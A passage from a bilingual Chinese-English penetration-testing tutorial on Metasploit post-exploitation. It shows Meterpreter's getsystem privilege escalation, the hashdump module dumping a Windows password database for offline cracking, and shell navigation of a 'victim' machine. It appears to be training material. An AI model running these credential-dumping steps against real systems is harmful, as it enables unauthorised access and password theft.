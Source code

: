 ```
meterpreter > getuid
Server username: els\els
meterpreter > getsystem
...got system (via technique 1).
meterpreter >
```

在系统上拥有管理权限意味着能够读取受保护的文件或更改配置。

## Dumping the Password Database（转储密码数据库）
例如，您可以转储密码数据库并将其保存以供离线破解会话使用。 hashdump 模块转储 Windows 机器的密码数据库。

```
meterpreter > background
[*] Backgrounding session 2...
msf > use post/windows/gather/hashdump
msf post(hashdump) > show options

Module options (post/windows/gather/hashdump):
Name            Current Setting     Required    Description
-----           ---------------     --------    -------------
SESSION                             yes         The session to run this module on.

msf post(hashdump) > set session 2
```

配置完成后，您可以运行`exploit` 命令开始转储哈希。

```
msf post(hashdump) > exploit
```

![dumping-the-password-database.png](/img/in-post/ine/dumping-the-password-database.png)

## Exploring the Victim System（探索受害者系统）
Meterpreter 让您可以使用类 Unix 的 shell 命令导航受害者的硬盘：

```
meterpreter > pwd # Prints the working directory 打印工作目录
C:\Windows\System32
meterpreter > cd C:\\ # Changes directory. Please note that you have to escape backslashes by doubling them. 更改目录。 请注意，您必须通过将反斜杠加倍来逃避反斜杠。
meterpreter > pwd
C:\
meterpreter > ls # Lists the current directory 列出当前目录
```
